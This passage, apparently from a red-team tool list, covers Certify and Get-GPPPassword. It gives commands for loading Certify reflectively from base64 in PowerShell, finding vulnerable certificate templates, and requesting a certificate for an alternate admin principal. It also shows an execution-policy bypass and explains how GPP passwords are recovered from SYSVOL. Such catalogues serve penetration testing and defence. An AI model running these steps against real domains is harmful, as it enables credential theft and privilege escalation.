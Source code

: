 ```bash
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Certify.exe")) | Out-File -Encoding ASCII C:\Temp\Certify.txt
```

Certify can then be loaded in a PowerShell script with the following (where "aa..." is replaced with the base64-encoded Certify assembly string):

```
$CertifyAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("aa..."))
```

The Main() method and any arguments can then be invoked as follows:

```
[Certify.Program]::Main("find /vulnerable".Split())
```

Full compile instructions can be found [here](https://github.com/GhostPack/Certify#compile-instructions).

**Usage:** 

```bash
# See if there are any vulnerable templates
Certify.exe find /vulnerable

# Request a new certificate for a template/CA, specifying a DA localadmin as the alternate principal
Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin
```

Full example walkthrough can be found [here](https://github.com/GhostPack/Certify#example-walkthrough).

![image](https://user-images.githubusercontent.com/100603074/210088651-28899ba5-cbbd-4b03-8000-068fd401476d.png)

### [🔙](#tool-list)[Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

Get-GPPPassword is a PowerShell script part of the PowerSploit toolkit, it is designed to retrieve passwords for local accounts that are created and managed using Group Policy Preferences (GPP).

Get-GPPPassword works by searching the SYSVOL folder on the domain controller for any GPP files that contain password information. Once it finds these files, it decrypts the password information and displays it to the user.

**Install:** 

Follow the PowerSploit [installation instructions](https://github.com/A-poc/RedTeam-Tools#powersploit) from this tool sheet.

```bash
powershell.exe -ep bypass
Import-Module PowerSploit
```

**Usage:** 

